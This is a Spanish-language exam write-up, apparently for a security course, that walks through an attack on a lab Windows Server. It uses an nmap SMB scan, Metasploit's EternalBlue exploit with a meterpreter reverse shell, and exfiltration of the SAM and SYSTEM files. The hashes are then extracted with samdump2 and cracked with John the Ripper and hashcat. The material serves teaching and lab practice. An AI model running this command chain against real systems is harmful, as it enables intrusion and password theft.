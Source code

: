 ```yaml
---
title: EXAMEN PARCIAL
date: 2024-11-03 00:00:00 -05:00
categories: [Ciberseguridad, Seguridad Informática]
tags: [SMB, Reconnaissance, Weaponization, Exploitation, SSH]  # TAG names should always be lowercase
---
```


En este post, vamos a desarrollar el examen parcial.

# 2.1. Escaneo de Red y Enumeración de Servicios (2 puntos) 

nmap -p 139,445 --script smb-protocols 10.0.2.4

![alt text](/assets/images/1.png)

### Explicación:
•	Los puertos 139 y 445 están asociados con el servicio SMB en Windows. Usamos el flag --script smb-protocols de Nmap para enumerar las versiones de los protocolos SMB que están habilitados.
•	En los resultados, se muestra que NT LM 0.12 (SMBv1) está habilitado en la máquina Windows Server (10.0.2.4), lo cual es vulnerable.


# 2.2. Exploración de la Vulnerabilidad 

Uso del exploit exploit/windows/smb/ms17_010_eternalblue en Metasploit:

•	EternalBlue (MS17-010) explota una vulnerabilidad en SMBv1, permitiendo ejecución remota de código en sistemas sin parchar, como Windows Server 2008 R2.
•	Este exploit es ideal para esta tarea ya que se enfoca en SMBv1, lo que nos permite ejecutar código y obtener una conexión remota con el servidor si tiene SMBv1 activo y es vulnerable a EternalBlue.

# 2.3. Configuración del Exploit en el Framework Metasploit

1.	Inicia Metasploit:
msfconsole
2.	Selecciona el módulo de EternalBlue:
use exploit/windows/smb/ms17_010_eternalblue
3.	Configura los parámetros necesarios:

   
![alt text](/assets/images/2.png)
### Explicación de los parámetros:
•	RHOSTS (Remote Host): IP de la máquina objetivo (Windows Server 10.0.2.4). Indica a Metasploit dónde dirigir el ataque.
•	LHOST (Local Host): IP de la máquina atacante (Kali Linux 10.0.2.9). Es necesario para recibir la conexión de vuelta (reverse shell).
•	PAYLOAD: windows/x64/meterpreter/reverse_tcp crea un payload de reverse shell que te permitirá obtener acceso remoto y control sobre la máquina víctima.


# 2.4. Ejecución del Exploit (2 puntos)

Comando para ejecutar el exploit:
exploit
Confirmación de éxito:

![alt text](/assets/images/3.png)

### Explicación de los parámetros:
•	El exploit se ejecuta correctamente, mensaje en Metasploit Meterpreter session X opened.
•	Este mensaje confirma que se ha establecido una conexión con la máquina objetivo (Windows Server 10.0.2.4) y ahora se tiene una sesión interactiva.


# 2.5. Exfiltración de Archivos SAM y SYSTEM 

Pasos para exfiltrar los archivos:
Sube el script vssown.vbs a la máquina víctima:
upload /home/user/Desktop/vssown.vbs C:\Windows\Temp\vssown.vbs

![alt text](/assets/images/4.png)

Copia los archivos SAM y SYSTEM desde la copia de volumen de sombra:
![alt text](/assets/images/5.png)

Descarga los archivos a tu máquina atacante:
    download C:\Windows\Temp\SAM /ruta/en/Kali/SAM
    download C:\Windows\Temp\SYSTEM /ruta/en/Kali/SYSTEM


# 2.6. Análisis de los Archivos Exfiltrados 

### Extracción de hashes de contraseñas en Kali Linux:
1.	Usa samdump2 para extraer los hashes de los archivos SAM y SYSTEM:
samdump2 /ruta/en/Kali/SYSTEM /ruta/en/Kali/SAM > hashes.txt
2.	Con los hashes en hashes.txt, intenta descifrarlos con John the Ripper:
john --format=NT hashes.txt
o	O bien, usa Hashcat para realizar un ataque con GPU:
hashcat -m 1000 hashes.txt /ruta/a/wordlist

Explicación:
•	Samdump2 extrae los hashes de los archivos SAM y SYSTEM, que son esenciales para intentar descifrar las contraseñas de los usuarios.
•	John the Ripper y Hashcat permiten descifrar los hashes mediante ataques de diccionario o fuerza bruta.

